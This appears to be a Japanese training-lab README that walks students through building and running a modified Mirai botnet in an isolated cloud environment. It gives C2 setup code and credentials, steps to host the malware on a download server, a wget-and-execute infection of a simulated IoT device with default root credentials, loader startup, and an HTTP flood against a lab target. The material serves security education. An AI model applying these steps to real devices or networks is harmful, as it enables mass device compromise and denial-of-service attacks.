# ようこそ，攻撃演習へ！
ここは攻撃演習プロジェクトです．  
**リポジトリにあるソースコードをローカルに落としてくるのは危険なので，絶対にしないでください．**


## マルウェアMirai
リポジトリにあるのは，実際にDDoS攻撃で扱われてたMiraiと呼ばれるマルウェアを演習用に改良したソースコードです．  
攻撃演習では，このマルウェアのソースコードを用いて学習を進めてもらいます．（EC2に準備してあるのでクローンはしなくて大丈夫です）  

マルウェアMiraiは，Linuxで動作するIoT機器を対象にボットを感染させ，それらを踏み台としてDDoS攻撃を仕掛けます．  
Linuxで動作するIoTの中でも，ユーザ名とパスワードを初期値のまま扱っている機器を中心に感染拡大しています．

Miraiによる被害事例として有名なのが，2016年10月に発生した事件があります．  
およそ5時間にわたってDNSサービスが停止し，TwitterやSpotify，Netflix，GitHubといったサービスなどが利用できなくなりました．  
この際のDDoS攻撃の規模は過去最大と言われており，史上最悪のサイバー攻撃となりました．  


### Miraiの構成
マルウェアMiraiには，いくつかのサーバを準備する必要があり，それぞれの機能については以下のようになっています．
- C2 Server
	- 構築したBotnetの制御
- Botnet
	- Target ServerへのDDoS攻撃や脆弱なIoT機器を探索
- Report Server
	- 脆弱なIoT機器のログイン情報を管理
- Loader
	- Report Serverに管理しているログイン情報から，脆弱なIoT機器にログインしてMiraiをダウンロード
- Download Server
	- マルウェアMiraiを管理



本システムでは，これらすべての機能を構築してDDoS攻撃する流れを学習できます．


## Cloud9へアクセス
ではまず，攻撃演習を始めるために，演習環境にアクセスしていきましょう．  
赤枠で囲ってあるところに，`cloud9`と入力してください．



すると，候補にCloud9が出てくるので，それをクリックしてください．



anonymousの`Open IDE`を選択してください．



このような画面が出てきたら，攻撃演習環境にアクセス完了です！



赤枠で囲んでいるmalwareディレクトリにMiraiのソースコードが保存されています．



## プログラム作成（事前準備）
まずは，マルウェアとC2 Serverのメインプログラムを作成してもらいます．

マルウェアのメインプログラムは，
`/home/ubuntu/enviroment/malware/mirai/bot/main.c`
となっており，C言語で記述されています．

マルウェアに感染したBotはC2 Serverとの接続が必要ですが，その部分のプログラムが抜けているため，作成してもらいます．  
establish_connectionメソッドの最後に，以下のコードを追加してください．
```
    // C2 Serverへの接続確認
    if (resolve_func != NULL)
        resolve_func();

    //C2 Serverへ接続
    pending_connection = TRUE;
    connect(fd_serv, (struct sockaddr *)&srv_addr, sizeof (struct sockaddr_in));
```

C2 Serverのメインプログラムは，
`/home/ubuntu/enviroment/malware/mirai/cnc/main.go`
となっており，Go言語で記述されています．  
C2 Serverは，Go言語とMySQLを組み合わせて構築していきます．  
今回のプログラム作成では，データベースのIPアドレス，ユーザ名，パスワード，使用するテーブルを設定してもらいます．  
10行目以降に，以下のコードを入力してください．
```
const DatabaseAddr string = "127.0.0.1:3306" \\IPアドレス
const DatabaseUser string = "root" \\ユーザ名
const DatabasePass string = "Admin123!" \\パスワード
const DatabaseTable string = "mirai" \\テーブル名

var clientList *ClientList = NewClientList()
var database *Database = NewDatabase(DatabaseAddr, DatabaseUser, DatabasePass, DatabaseTable)
```

プログラム作成が完了したら，
`/home/ubuntu/enviroment/malware/mirai/`  
へ移動し，
`./build.sh`  
を実行することでコンパイルしてください．
<!-- 
これでマルウェアとC2 Serverのプログラムは完了です． -->

## C2 Server
次にGo言語とMySQLを組み合わせて，C2 Serverを立ち上げていきます．
cncディレクトリにある`main.go`をクリックしてください．



C2 Serverは，GoとSQLを組み合わせて構築します．  
ここのcncディレクトリにあるのは，そのC2 Serverに関するGoのソースコードが管理されている部分となります．  
cncディレクトリにある`main.go`は，名前の通り中枢を担うプログラムです．    
赤枠で囲ってある部分に，SQLのデータベースにアクセスするための，ユーザ名とパスワードが設定されています．


`main.go`に設定しているユーザ名とパスワードをもとに，mysqlへログインしていきます．

**ログインする際のコマンドは`sudo mysql -u ユーザ名 -p`です．**

パスワードはコマンド打った後に聞かれるので，そこで入力してください．




C2 Serverで用いるデータベース等は構築しているので，まずはそちらをコマンドで確認していきましょう．

**コマンドは`show databases;`です．**

するとデータベース一覧が出力されて，その中に"mirai"というデータベースがあることがわかると思います．  
このデータベースを用いて，C2 Serverが動作します．



では，次にmiraiのデータベースの構成をみていきましょう．

**構成をみるコマンドは`show tables from mirai;`です．**

miraiのデータベースは，history，users，whitelistのテーブルから成り立っているのが確認できます．  
以下にそれぞれのテーブルの説明を入れておきます．
- history
	- DDoS攻撃の履歴を管理するテーブル
- users
	- C2 Serverにアクセスするユーザを管理するテーブル
- whitelist
	- DDoS攻撃の対象から除外しているサーバを管理するテーブル


このようなデータベースはあらかじめ構築しているので，皆さんにはC2 Serverへアクセスするためのユーザを作成してもらいます．

**まず，`use mirai;`でmiraiのデータベースにアクセスしてください．**


次にC2 Serverのユーザを作成してもらいます．  

**ユーザを作成するコマンドは，`INSERT INTO users VALUES (NULL, 'id', 'pass', 0, 0, 0, 0, -1, 1, 30, '');`です．** 

上記コマンドのidがユーザ名となっており，passの部分がパスワードの部分になっています．  
idとpassの部分は，自分好みに変えてもらって構いません．  


大まかなC2 Serverのデータベース構成に関する理解とユーザの設定情報をしてもらったので，`exit`でmysqlから抜けてください．


次に設定した情報を反映するために，mysqlを再起動させます．

**再起動させるコマンドは`sudo service mysql restart`です．**

<!-- ## C2サーバアクセス -->

では構築したC2 Serverを実際に起動させて，ログインしてみましょう．  
起動するには，ターミナルでC2サーバの起動や管理しているディレクトリへ移動していきます． 

**`cd malware/mirai/release`でreleaseディレクトリに移動してください．**

このディレクトリでC2 Serverの立ち上げをおこなっていきます．  
ちなみにディレクトリのフルパスは
`/home/ubuntu/enviroment/malware/mirai/release`
となります．  


releaseディレクトリには，GoとSQLを組み合わせてC2 Serverを起動させるためのcncというプログラムがあります．  
このcncを実行することでC2 Serverが立ち上がる仕組みとなっています．  

では実際に起動させていきましょう．

**コマンドは`sudo ./cnc`です．**

実行してMysql DB openedと出力されたら成功です．


では新しくターミナルを用意して，C2 Serverへtelnetで接続していきます．  
今回はmain.goでローカルホストに構築するように設定しているので，そこに接続します．  

**コマンドは`telnet localhost`または`telnet 127.0.0.1`になります．**


そうするとC2 Serverのログイン画面が出てくるので，そこにMySQLで設定したidとpwを入力していきます．  
※`INSERT INTO users VALUES (NULL, 'id', 'pass', 0, 0, 0, 0, -1, 1, 30, '');`で設定したやつです．  

以下のような画面が出てきたらログイン完了です！



## Download Server
マルウェアを配布するDownload Serverを構築していきます．  
Webサーバを立ち上げて，そこにマルウェアを格納することで作成してきます．

まずは，新しくターミナルを開いて  
`sudo service apache2 start`  
でWebサーバを起動します．

`/home/ubuntu/enviroment/malware/mirai/release`
にあるマルウェアのプログラムを
Webサーバの`/var/www/html`に格納していきます．

`cd /home/ubuntu/enviroment/malware/mirai/release`  
でマルウェアのあるディレクトリに移ります．

次に，
`cp mirai.* /var/www/html`  
で`/var/www/html`にマルウェアを格納していきます．

実際に格納されているか，
`cd /var/www/html`  
でディレクトリ移動し，  
`ls`で確認してみましょう．

マルウェアのプログラムが格納されていたら成功です．

その後，`sudo service apache2 restart`でWebサーバを再起動させてください．


## Bot
インスタンス内には，ログイン情報が脆弱なIoT機器を模したコンテナがあります．  
まずは手動でコンテナにマルウェアをDownload Serverからダウンロードして，ボット化させていきましょう．  
コンテナには，Telnetでアクセスしていきます．  
`telnet 172.20.0.2`
でログインしてみてください．

IDはroot  
パスワードはtoor  
です．

その後，
`wget http://192.168.13.1 -O dvrHelper`  
でダウンロードを行います．

ダウンロードが完了したら，
`chmod 777 dvrHelper`
を実施し，  
ダウンロードしたマルウェアを
`./dvrHelper`
で実行します．

再度C2 Serverへログインしたあとに，`botcount`というボットの台数を確認するコマンドを発行し，台数が1と出力されていればボット化の成功です．

## Botnet
Botnetの構築には，LoaderとReport Serverが必要となっています．  
本演習では，それらに関するサーバはあらかじめ作成しています．  
そのため，Loaderを立ち上げることで，ボットネットを構築が可能となっています．

`/home/ubuntu/enviroment/malware/loader`
に移動し，  
`./loader`
を実行することで立ち上げることができます．

再度C2 Serverへログインしたあとに，`botcount`というボットの台数を確認するコマンドを発行し，複数台出力されていれば，複数台の感染したボットから構成されるBotnetの構築は完了です．

## DDoS攻撃
DDoS攻撃を実施する前に，どのような攻撃を実施できるか確認してみましょう．
C2 Serverにアクセスして，`?`と入力してみてください．
すると，実施できるDDoS攻撃の種類が出力されます．  
出力されたツールについて，簡単な説明を入れておきます．

- dns
	- DNSサーバを対象として，大量の名前解決できないリクエストを送信することで，サービスを妨害する攻撃
- syn
	- SYNパケットを大量に送信してサービスを妨害する攻撃
- ack
	- ACKパケットを大量に送りつけてサービスを妨害する攻撃
- greip
	- GREでカプセル化したIP-UDPパケットを大量に送りつけてサービスを妨害する攻撃
- greeth
	- GREでカプセル化したETH-IP-UDPパケットを大量に送りつけてサービスを妨害する攻撃
- vse
	- ソースエンジンを対象にUDPパケットを大量に送りつけてサービスを妨害する攻撃
- stomp
	- DDoS対策機器等をバイパスすることを意図した攻撃
	- TCPセッション確立後に，大量のACKパケットを送りつけてサービスを妨害する攻撃
- udpplain
	- 設定項目を少なくし，高速でUDPパケットを送りつけてサービスを妨害する攻撃
- http
	- HTTP GETリクエストを大量に送りつけてサービスを妨害する攻撃
- udp
	- UDPパケットを大量に送りつけてサービスを妨害する攻撃

全部で演習可能な攻撃は10種類あります．  
DDoS攻撃の中で，最も使用されている攻撃は，上から二つ目にあるSYN Flood攻撃になります． 


では，実際にコマンドを打って，攻撃を実行していきましょう．
攻撃対象のサーバのIPアドレスは,`172.23.0.2`です．  
pingコマンドで，サーバにアクセスできるか確認してください．

今回は例としてHTTP GET Flood攻撃を実施していきます．
HTTP GET Flood攻撃のコマンドを打っていきましょう．  
コマンドはhttp webサーバのipアドレス 攻撃時間 ?です．  
`?`は実行した際に，攻撃の詳細を表示するものとなっています．  
今回の攻撃時間は好きな長さで構いませんが，30秒間くらいで設定してください．  
すると，このような攻撃内容の結果が返ってくると思います．  
```
netlab@botnet# http 172.23.0.2 30 ?
List of flags key=val seperated by spaces. Valid flags for this method are

domain: Domain name to attack
dport: Destination port, default is random
method: HTTP method name, default is get
postdata: POST data, default is empty/none
path: HTTP path, default is /
conns: Number of connections

Value of 65535 for a flag denotes random (for ports, etc)
Ex: seq=0
Ex: sport=0 dport=65535
netlab@botnet#
```
英語ではわかりにくいと思うので，日本語に訳したものも載せておきます．  
```
netlab@botnet# http 172.23.0.2 30 ?
スペースで区切られたフラグのリスト．メソッドで有効なフラグは以下の通りです．

ドメイン: 攻撃するドメイン名
宛先ポート: デフォルトはランダム
HTTPメソッド名: デフォルトはget
POSTデータ: デフォルトは"/"
HTTPのパス: デフォルトは"/"
コネクション: ボット一台からの同時接続数 

フラグの値が65535の場合はランダムに設定
Ex: seq=0
Ex: sport=0 dport=65535
netlab@botnet#
```
今回の攻撃内容として，
- ドメイン名の指定なし
- 宛先ポートはランダム
- HTTP GET Flood攻撃なのでHTTPメソッドはGET（HTTP POST Flood攻撃もあるのですが，その場合はPOSTで設定します）
- 攻撃対象のHTTPのパスは"/"
- コネクションは指定なし
となっています．

攻撃の実施後，pingコマンドを再発行することで，正常にアクセスできなくなっていることがわかると思います．
その他の攻撃も色々試してみてください．

攻撃演習は以上となります．
対策演習に進んでください．
